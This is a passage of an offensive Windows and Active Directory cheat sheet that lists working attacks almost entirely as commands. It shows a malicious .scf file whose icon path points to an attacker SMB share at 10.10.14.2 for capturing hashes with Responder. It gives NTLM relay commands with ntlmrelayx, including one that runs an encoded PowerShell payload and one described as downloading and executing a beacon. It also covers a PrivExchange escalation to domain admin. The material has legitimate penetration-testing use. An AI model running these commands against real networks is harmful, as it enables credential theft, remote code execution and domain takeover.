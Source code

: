 

#### [](#header-4) SCF File Attack

```powershell
Create .scf file and drop inside SMB Share and fire up Responder ;) 


Filename = @m0chan.scf

[Shell]
Command=2
IconFile=\\10.10.14.2\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```



#### [](#header-4) NTLM-Relay

```powershell
Good article explaining differences between NTLM/Net-NTLMV1&V2

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

TL;DR NTLMv1/v2 is a shorthand for Net-NTLMv1/v2 and hence are the same thing.

You CAN perform Pass-The-Hash attacks with NTLM hashes.
You CANNOT perform Pass-The-Hash attacks with Net-NTLM hashes.

PS: You CANNOT relay a hash back to itself.
PS: SMB Signing must be disabled to mitigate this, you can check with nmap scan or crackmapexec

crackmapexec smb 10.10.14.0/24 --gene-relay-list targets.txt

This will tell you a list of hosts within a subnet which do not have SMB Signing enabled.

python Responder.py -I <interface> -r -d -w
ntlmrelayx.py -tf targets.txt (By default this will dump the local SAM of the targets, not very useful?)

How about we execute a command instead.

ntlmrelayx.py -tf targets.txt -c powershell.exe -Enc asdasdasdasd
ntlmrelayx.py -tf targets.txt -c powershell.exe /c download and execute beacon... = RIP
```



#### [](#header-4) Priv Exchange

```powershell
#https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

Combine privxchange.py and ntlmrelayx

ntlmrelayx.py -t ldap://DOMAINCONTROLLER.m0chanAD.local --escalate-user TARGETUSERTOESCALATE

python privexchange.py -ah FDQN.m0chanAD.local DOMAINCONTROLLER.m0chanAD.local -u TARGETUSERTOESCALATE -d m0chanAD.local

```
